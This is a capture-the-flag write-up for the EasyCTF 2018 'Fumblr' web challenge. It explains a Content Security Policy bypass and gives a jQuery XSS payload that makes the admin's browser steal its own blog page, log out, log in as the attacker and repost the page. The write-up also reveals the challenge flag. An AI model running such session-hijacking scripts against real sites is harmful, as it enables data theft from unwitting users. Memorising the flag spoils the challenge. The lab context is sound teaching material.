

# EasyCTF_2018: Fumblr

**Category:** Web
**Points:** 275
**Description:**

>Come check out the latest blogging platform all the cool kids are using! I tried my hardest to make it hack-proof. If you can read the admin's hidden posts, I'll even give you a flag!! [Good luck](http://c1.easyctf.com:12491/)!?

## Write-up
This challenge tests upon the bypassing of Content Security Policy that prevented the use of in-line scripts. Other than that, it was mostly a test on creativity to force the _admin_ to do whatever I wanted him to do to give me my flag.

To solve this challenge, create our first blog post with our malicious script. This essentially saves the entire blog page in a variable, logs out, logs back in as us and posts the blog page in a blog post. I smile to myself when I think of my own solution. Please don't hack me. I use the same password for every site.

    // Get blog
    var resp = $.get({url: "http://c1.easyctf.com:12491/profile", async: false}).responseText;
    var username = $(resp).find("p")[0].innerHTML.match(/: ([\w]+)/)[1];
    var blog = $.get({url: "http://c1.easyctf.com:12491/blog/" + username, async: false}).responseText;

    // Logout
    $.get({url: "http://c1.easyctf.com:12491/logout", async: false});

    // Login
    var resp = $.get({url: "http://c1.easyctf.com:12491/login", async: false}).responseText;
    var csrf = $($(resp).find("form input[name='_csrf']")[0]).val()
    $.ajax({type: "POST", url: "http://c1.easyctf.com:12491/login", data: {username: "cykablyat123", password: "h$rw@5Fjuj2#m89cU6PrkWWHS3P&2Bya", _csrf: csrf}, async: false});

    // Post blog
    var resp = $.get({url: "http://c1.easyctf.com:12491/profile", async: false}).responseText;
    var username = $(resp).find("p")[0].innerHTML.match(/: ([\w]+)/)[1];
    var resp = $.get({url: "http://c1.easyctf.com:12491/blog/" + username, async: false}).responseText;
    var csrf = $($(resp).find("form input[name='_csrf']")[0]).val()
    $.ajax({type: "POST", url: "http://c1.easyctf.com:12491/create-post", data: {title: "HTML", body: blog, _csrf: csrf}, async: false});

Create our second blog post embedding the previous script inside as a _raw_ file. Remember to insert the previous post's URL into the script.

    

Next, simply report our second blog post and wait. After a couple seconds, a new blog post would've been created by the _hacked_ admin user and we get the HTML source code of the admin's blog. Doing a bit of `CTRL-F`, you come across a [nice looking site](http://c1.easyctf.com:12491/blog/admin/5a8bc3f6c532ff2a0057ba3a). Accessing the site, we get the flag.

Therefore, the flag is `easyctf{I_th0ght_CSP_m4d3_1t_s3cur3?}`.
